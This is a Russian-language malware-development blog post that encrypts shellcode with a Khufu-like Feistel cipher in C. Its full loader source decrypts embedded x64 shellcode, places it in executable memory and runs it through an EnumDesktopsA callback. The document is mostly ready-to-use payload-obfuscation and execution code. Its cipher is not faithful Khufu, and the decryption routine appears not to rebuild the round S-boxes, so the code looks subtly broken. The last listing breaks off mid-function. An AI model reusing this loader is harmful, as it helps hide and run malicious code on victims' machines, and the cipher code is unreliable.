





\newpage
\subsection{93. исследование вредоносного ПО и криптографии - часть 2 (30): Шифрование полезной нагрузки с помощью Khufu. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}     

Этот пост является результатом моего собственного исследования использования шифра Фейстеля *Khufu* в разработке вредоносного ПО. Как обычно, исследуя различные криптоалгоритмы, я решил проверить, что будет, если использовать этот метод для шифрования/дешифрования полезной нагрузки.    

### Khufu

*Khufu* - это криптографический алгоритм, работающий с `64-bit` блоками данных. Исходный `64-bit` текст изначально разделяется на две равные части по `32 bit` каждая. Эти половины обозначаются как `L` и `R`. Вначале обе половины проходят операцию `XOR` с определенным набором ключевого материала.      

Затем они проходят последовательность раундов, напоминающих `DES`. В каждом цикле входом в `S-box` является младший значащий байт `L`. Каждый `S-box` принимает `8` бит на входе и выдает `32` бита на выходе. После выбора `32`-битного элемента в `S-box`е он комбинируется с `R` с помощью операции `XOR`. Далее `L` вращается на кратное `8` бит число позиций, а затем `L` и `R` обмениваются местами. Это завершает раунд. `S-box` является динамическим и обновляется каждые `8` раундов.     

В конечном итоге, после завершения последнего раунда, значения `L` и `R` проходят операцию `XOR` с дополнительным ключевым материалом. Затем они объединяются для формирования зашифрованного блока.    

### практический пример

Прежде всего, нам нужен ключ: это `64`-байтовый массив (`key`), инициализированный предопределенными значениями:    

```cpp
uint8_t key[KEY_SIZE] = {
  0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
  0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
  0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
  0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
  0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
  0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
  0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
  0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F
};
```

И нам нужен `S-box` (`sbox`) - это массив `256`-элементный, используемый для подстановки во время шифрования и дешифрования:

```cpp
uint32_t sbox[256];

void khufu_generate_sbox(uint8_t *key, int round) {
  for (int i = 0; i < 256; i++) {
    sbox[i] = (key[(round * 8 + i) % KEY_SIZE] << 24) |
          (key[(round * 8 + i + 1) % KEY_SIZE] << 16) |
          (key[(round * 8 + i + 2) % KEY_SIZE] << 8) |
          key[(round * 8 + i + 3) % KEY_SIZE];
  }
}
```

Функция генерации S-box Khufu - эта функция генерирует `S-box` для каждого раунда с использованием ключа. Для каждого элемента `S-box` функция объединяет четыре байта ключа (соответствующим образом сдвинутых) для формирования `32-bit`ного значения.

Следующая функция - это функция шифрования Khufu:

```cpp
void khufu_encrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | 
  ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | 
  ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | ((uint32_t)key
  [2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | ((uint32_t)key
  [6] << 8) | (uint32_t)key[7];

  for (int round = 0; round < ROUNDS; round++) {
    khufu_generate_sbox(key, round);
    uint32_t temp = left;
    left = right ^ sbox[left & 0xFF];
    right = (temp >> 8) | (temp << 24);
    uint32_t temp2 = left;
    left = right;
    right = temp2;
  }

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | ((uint32_t)key
  [10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | ((uint32_t)
  key[14] << 8) | (uint32_t)key[15];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}
```

Что здесь происходит? Прежде всего, `8`-байтовый блок разделяется на две `32`-битные половины (`left` и `right`).
Затем начальное расписание ключей выполняет `XOR`-операцию для `left` и `right` половин с ключевыми значениями.

Для каждого раунда:
- генерируется `S-box` для данного раунда.   
- `left` обновляется с помощью `XOR` с `S-box` значением, индексированным младшим значащим байтом `left`.   
- `right` вращается на `8` бит.   
- `left` и `right` обмениваются местами.   

Финальное расписание ключей выполняет `XOR`-операцию для `left` и `right` половин с ключевыми значениями.   

Следующий шаг - процесс расшифрования. Логика расшифрования является обратной шифрованию:

```cpp
void khufu_decrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | 
  ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | 
  ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | ((uint32_t)key
  [10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | ((uint32_t)
  key[14] << 8) | (uint32_t)key[15];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    uint32_t temp = right;
    right = left ^ sbox[right & 0xFF];
    left = (temp << 8) | (temp >> 24);
    uint32_t temp2 = left;
    left = right;
    right = temp2;
  }

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | ((uint32_t)key
  [2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | ((uint32_t)key
  [6] << 8) | (uint32_t)key[7];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}
```

Основная логика - это функции шифрования и дешифрования шеллкода:    

```cpp
void khufu_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    khufu_encrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}

void khufu_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    khufu_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

Как вы видите, шеллкод шифруется и расшифровывается поблочно. Обратите внимание, что если длина шеллкода не кратна размеру блока, то он дополняется (`0x90`) перед шифрованием и расшифровывается соответствующим образом.

Наконец, нам нужно запустить полезную нагрузку:    

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  khufu_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  khufu_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Как обычно, я использовал полезную нагрузку с `meow-meow` в окне сообщений:    

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

и запустил его, передав его как функцию обратного вызова в `EnumDesktopsA`.

Полный исходный код выглядит так (`hack.c`):

```cpp
/*
* hack.c
* encrypt/decrypt payload 
* via Khufu algorith
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/21/malware-cryptography-30.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 64

uint8_t key[KEY_SIZE] = {
  0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
  0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
  0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
  0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
  0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
  0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
  0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
  0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F
};

uint32_t sbox[256];

void khufu_generate_sbox(uint8_t *key, int round) {
  for (int i = 0; i < 256; i++) {
    sbox[i] = (key[(round * 8 + i) % KEY_SIZE] << 24) |
          (key[(round * 8 + i + 1) % KEY_SIZE] << 16) |
          (key[(round * 8 + i + 2) % KEY_SIZE] << 8) |
          key[(round * 8 + i + 3) % KEY_SIZE];
  }
}

void khufu_encrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | 
  ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | 
  ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | 
  ((uint32_t)key[2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | 
  ((uint32_t)key[6] << 8) | (uint32_t)key[7];

  for (int round = 0; round < ROUNDS; round++) {
    khufu_generate_sbox(key, round);
    uint32_t temp = left;
    left = right ^ sbox[left & 0xFF];
    right = (temp >> 8) | (temp << 24);
    uint32_t temp2 = left;
    left = right;
    right = temp2;
  }

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | 
  ((uint32_t)key[10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | 
  ((uint32_t)key[14] << 8) | (uint32_t)key[15];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void khufu_decrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | 
  ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | 
  ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | ((uint32_t)key
  [10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | ((uint32_t)
  key[14] << 8) | (uint32_t)key[15];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    uint32_t temp = right;
    right = left ^ sbox[right & 0xFF];
    left = (temp << 8) | (temp >> 24);
    uint32_t temp2 = left;
    left = right;
    right = temp2;
  }

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | 
  ((uint32_t)key[2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | 
  ((uint32_t)key[6] << 8) | (uint32_t)key[7];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void khufu_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  khufu_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }
}

void khufu_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  khufu_decrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
